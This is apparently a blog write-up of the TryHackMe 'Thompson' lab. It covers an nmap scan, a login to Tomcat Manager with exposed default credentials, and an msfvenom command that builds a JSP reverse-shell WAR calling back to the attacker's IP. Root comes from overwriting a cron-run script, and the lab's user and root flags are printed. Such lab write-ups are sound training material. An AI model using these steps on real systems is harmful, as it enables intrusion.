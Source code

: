 ```yaml
---
title: "Thompson - TryHackMe"
author: Ludovic COULON
date: 2020-06-07
hero: ./images/hero.png
excerpt: "Writeup for the Thompson room on TryHackMe"
---
```


[TryHackMe | Thompson](https://tryhackme.com/room/bsidesgtthompson)
Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.221.95
```

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G+8EJNXze3WPjXsC54jYeO0lp2SGq+sauzNvmWrHcrLKHtugMUQmkS9gD/p4zx4LjuG0WKYYeyLybs4WrTTmCU8PYGgmud9SwrDlEjX9AOEZgP/gj1FY+x+TfOtIT2OEE0Exvb86LhPj/AqdahABfCfxzHQ9ZyS6v4SMt/AvpJs6Dgady20CLxhYGY9yR+V4JnNl4jxwg2j64EGLx4vtCWNjwP+7ROkTmP6dzR7DxsH1h8Ko5C45HbTIjFzUmrJ1HMPZMo9ss0MsmeXPnZTmp5TxsxbLNJGSbDv7BS9gdCyTf0+Qq1
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZFhZ3wY5EWj5L7ylSj+bx5pwaiEgU/Velkp4ZWXM//thL6K1lAAPGLxHMM=
|   256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33

8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

8080/tcp open  http    syn-ack Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/gQ8AzdM.png" alt="blog_image" />
</div>

Let's try the "manager app" button

<div className="Image__Medium">
  <img src="https://imgur.com/Ty59zwz.png" alt="blog_image" />
</div>

Well, I tried the cancel button because I don't have any credentials

<div className="Image__Medium">
  <img src="https://imgur.com/0wnAZv3.png" alt="blog_image" />
</div>

For some obscure reason (maybe bad configuration) there is a password and a username let's try it ! 🤨

<div className="Image__Medium">
  <img src="https://imgur.com/x0PrhCR.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/7CTEfM6.png" alt="blog_image" />
</div>

Well that worked let's see if there is a way to upload some reverse shell 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/n7GjOi7.png" alt="blog_image" />
</div>

I noticed a WAR file uploader let's search something on github/google

[Multiple Ways to Exploit Tomcat Manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

```bash
➜  TryHackMe msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.2.228 LPORT=1234 -f war > shell.war
```

<div className="Image__Medium">
  <img src="https://imgur.com/FwO3JC4.png" alt="blog_image" />
</div>

### #1 user.txt

```bash
39400c90bc683a41a8935e4719f181bf
```

### #2 root.txt

```bash
$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

$ bash id.sh
id.sh: line 2: test.txt: Permission denied

$ cat id.sh
#!/bin/bash
id > test.txt

$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

If we copy the content root key on the [id.sh](http://id.sh) it should be executed with root privileges let's try that ! :D

```bash
echo "cp /root/root.txt /home/jack/root.txt" > id.sh
```

```bash
# Its a cron job its gonna take some time..
$ cat id.sh
cp /root/root.txt /home/jack/root.txt

$ ls
id.sh  root.txt  test.txt  user.txt

$ cat root.txt
d89d5391984c0450a95497153ae7ca3a
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
